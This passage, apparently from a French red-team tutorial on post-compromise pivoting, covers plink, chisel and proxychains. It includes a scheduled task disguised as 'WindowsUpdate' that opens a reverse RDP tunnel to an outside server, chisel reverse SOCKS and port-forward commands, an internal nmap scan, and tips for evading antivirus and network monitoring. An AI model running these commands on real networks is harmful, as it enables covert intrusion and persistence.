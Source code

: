 ```
schtasks /create /tn "WindowsUpdate" /tr "C:\Windows\Temp\plink.exe -R 8080:localhost:3389 utilisateur@serveur-externe -pw motdepasse" /sc onstart /ru "SYSTEM"
```

Du point de vue OPSEC, plink présente plusieurs risques : il affiche des avertissements interactifs lors de la première connexion, stocke le mot de passe en clair dans la ligne de commande, et peut être facilement détecté par les solutions antivirus. Pour une approche plus discrète, il est recommandé d'utiliser des alternatives comme chisel ou des implants C2 avec des capacités de tunneling intégrées.

### Chisel

Chisel est un outil moderne de tunneling et de pivoting qui fonctionne sur TCP et est encapsulé dans un tunnel TLS. Il est particulièrement utile dans les environnements restrictifs où SSH n'est pas disponible ou est bloqué.

Pour créer un serveur chisel sur la machine de l'attaquant :

```
./chisel server -p 8080 --reverse
```

Pour établir un tunnel reverse SOCKS depuis le système compromis :

```
./chisel client serveur-externe:8080 R:socks
```

Cette configuration permet à l'attaquant d'accéder au réseau interne via un proxy SOCKS, tout en initiant la connexion depuis le système compromis (utile pour contourner les pare-feu sortants).

Pour un port forwarding spécifique :

```
./chisel client serveur-externe:8080 R:3389:serveur-interne:3389
```

Cette commande redirige le port 3389 de la machine de l'attaquant vers le port 3389 du serveur-interne via le système compromis.

Du point de vue OPSEC, chisel génère moins de logs que SSH et utilise un chiffrement TLS, le rendant plus difficile à identifier comme malveillant. Cependant, les connexions persistantes peuvent être détectées par les solutions de surveillance réseau. Pour minimiser les risques, il est recommandé d'utiliser des ports standards (comme 443) et d'établir des connexions intermittentes plutôt que persistantes.

### Proxychains

Proxychains permet de rediriger le trafic d'applications qui ne supportent pas nativement les proxies à travers une chaîne de proxies :

```
proxychains nmap -sT -Pn 10.0.0.1
```

Cette commande exécute un scan nmap à travers le proxy configuré dans /etc/proxychains.conf, permettant de scanner des hôtes internes depuis l'extérieur.
